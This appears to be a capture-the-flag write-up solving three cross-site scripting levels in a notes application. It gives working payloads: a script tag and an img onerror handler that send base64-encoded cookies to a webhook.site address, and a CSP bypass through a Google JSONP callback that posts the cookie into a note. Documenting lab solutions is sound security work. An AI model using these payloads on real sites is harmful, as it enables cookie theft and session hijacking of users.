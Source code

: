 ## XSS 1

Level 1 has no protections at all.  
Payload:
```html
<script>
  fetch("https://webhook.site/56132684-a245-4f7c-95ee-25f2484e9bf8/"+ btoa(document.cookie));
</script>
```

## XSS 2

In level 2, script tags are stripped. However, image tags with event handlers can be used instead.  
Payload:
```html
<img
  src="random"
  onerror='fetch("https://webhook.site/56132684-a245-4f7c-95ee-25f2484e9bf8/"+ btoa(document.cookie));'
/>
```

## XSS 3

In level 3, there is a restrictive CSP. However, `*.google.com` is allowed, allowing for JSONP to be exploited.  
Even though we have RCE, we are not done as we are unable to connect to other sites. We can leverage the site itself,
using fetch to create a note.

Note: host must be localhost and not the IP because the chrome bot loads pages form localhost.
Payload:
```html
<script
  src='https://accounts.google.com/o/oauth2/revoke?callback=fetch("http://localhost:1238/3/453de579aeb336b827c97c6b71a06903/new",{method: "POST",body:function(){a=new FormData();a.append("title","flag");a.append("content",document.cookie);return new URLSearchParams(a)}()})'>
</script>
```
